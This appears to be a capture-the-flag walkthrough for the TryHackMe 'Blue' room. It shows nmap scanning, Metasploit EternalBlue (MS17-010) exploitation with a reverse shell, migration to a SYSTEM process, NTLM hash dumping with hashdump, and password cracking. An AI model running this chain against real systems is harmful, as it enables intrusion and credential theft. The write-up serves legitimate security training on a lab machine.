



# TryHackMe: Blue — EternalBlue Walkthrough

Room: https://tryhackme.com/room/blue  

---

## 🔍 Nmap Scan

```bash
nmap -p 1-999 10.10.239.14
```

### Results:
```
Nmap scan report for 10.10.239.14
Host is up (0.13s latency).
Not shown: 996 closed tcp ports (reset)

PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

---

## 🚨 Nmap Vulnerability Scan

```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown
```

### Host Script Results:
```
smb-vuln-ms17-010:
VULNERABLE:
Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
CVE: CVE-2017-0143
Risk factor: HIGH
```

✅ The machine is vulnerable to **EternalBlue (MS17-010)**.

---

## 💥 Exploitation with Metasploit

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
```


---

### Set Target & Attacker

```bash
set RHOSTS 10.10.239.14
set LHOST <your IP>
run

### ✅ Shell Access
```



---
## 🚀 Privilege Escalation
Now it is time to escalate our privileges by trying to find a process running as SYSTEM

### Running Processes

```


---

### Migrate to SYSTEM

```bash
migrate <PID>
```



---

## 🔐 Dumping NTLM Hashes

```bash
hashdump
```



The password for user **Jon** can be cracked using **CrackStation**.

---

## 🚩 Finding the Flags

```
C:\flag1.txt
C:\Windows\System32\config\flag2.txt
C:\Users\Jon\Documents\flag3.txt

## ✅ Summary

- Discovered open SMB ports (445)
- Identified MS17-010 vulnerability
- Exploited with Metasploit EternalBlue
- Migrated to SYSTEM for privilege escalation
- Dumped NTLM hashes
- Retrieved all 3 flags

---

⚠️ For educational purposes only.
